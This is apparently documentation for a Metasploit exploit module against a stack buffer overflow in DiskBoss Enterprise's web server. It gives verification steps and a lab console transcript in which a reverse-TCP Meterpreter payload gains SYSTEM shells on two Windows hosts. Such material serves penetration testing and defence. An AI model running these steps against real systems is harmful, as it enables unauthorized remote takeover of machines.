 ## Vulnerable Application

DiskBoss Enterprise versions up to v7.5.12 are affected by a stack-based buffer overflow vulnerability which can be leveraged by an attacker to execute arbitrary code in the context of NT AUTHORITY\SYSTEM on the target. The vulnerability is caused by improper bounds checking of the request path in HTTP GET requests sent to the built-in web server. This module has been tested successfully on Windows XP SP3 and Windows 7 SP1.

## Verification Steps
  1. Install a vulnerable DiskBoss Enterprise
  2. Start `DiskBoss Enterprise` service
  3. Start `DiskBoss Enterprise` client application
  4. Navigate to `Tools` > `DiskBoss Server Options` > `Server`
  5. Check `Enable Web Server On Port 80` to start the web interface
  6. Start `msfconsole`
  7. Do `use exploit/windows/http/diskboss_get_bof`
  8. Do `set rhost 192.168.198.130`
  9. Do `check`
  10. Verify the target is vulnerable
  11. Do `set payload windows/meterpreter/reverse_tcp`
  12. Do `set lhost 192.168.198.138`
  13. Do `exploit`
  14. Verify the Meterpreter session is opened

## Scenarios

```
msf exploit(diskboss_get_bof) > options

Module options (exploit/windows/http/diskboss_get_bof):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST    192.168.198.130  yes       The target address
   RPORT    80               yes       The target port
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.198.138  yes       The listen address
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting


msf exploit(diskboss_get_bof) > exploit

[*] Started reverse TCP handler on 192.168.198.138:4444 
[*] Automatically detecting the target...
[*] Selected Target: DiskBoss Enterprise v7.5.12
[*] Sending stage (957999 bytes) to 192.168.198.130
[*] Meterpreter session 1 opened (192.168.198.138:4444 -> 192.168.198.130:4476) at 2017-01-08 05:12:46 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : GABOR-03722ADE8
OS              : Windows XP (Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/win32
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.198.130 - Meterpreter session 1 closed.  Reason: User exit
msf exploit(diskboss_get_bof) > set rhost 192.168.198.133
rhost => 192.168.198.130
msf exploit(diskboss_get_bof) > exploit

[*] Started reverse TCP handler on 192.168.198.138:4444 
[*] Automatically detecting the target...
[*] Selected Target: DiskBoss Enterprise v7.4.28
[*] Sending stage (957999 bytes) to 192.168.198.133
[*] Meterpreter session 2 opened (192.168.198.138:4444 -> 192.168.198.133:49187) at 2017-01-08 05:16:13 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-BCJL9PJ5BF5
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/win32
meterpreter >
```
